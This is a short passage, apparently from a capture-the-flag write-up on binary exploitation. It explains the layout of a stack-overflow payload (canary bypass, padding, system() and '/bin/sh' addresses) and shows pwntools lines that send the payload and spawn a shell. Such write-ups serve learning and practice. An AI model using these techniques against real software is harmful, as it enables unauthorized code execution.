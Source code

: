 **Explanation:**

* Overflow buffer: 512 bytes
* Canary: bypass stack protection
* Padding: 12 bytes
* `system_addr`: executes system("/bin/sh")
* Return address: can point to `win()` or anywhere safe
* `binsh_addr`: argument to `system()`

Send the payload:

```python
p.sendline(payload)
p.recvlines(2)
p.interactive()
```


**Result:** Spawns a **local shell** with the privileges of the binary.

---

![remote result](./img/remote_result.png)


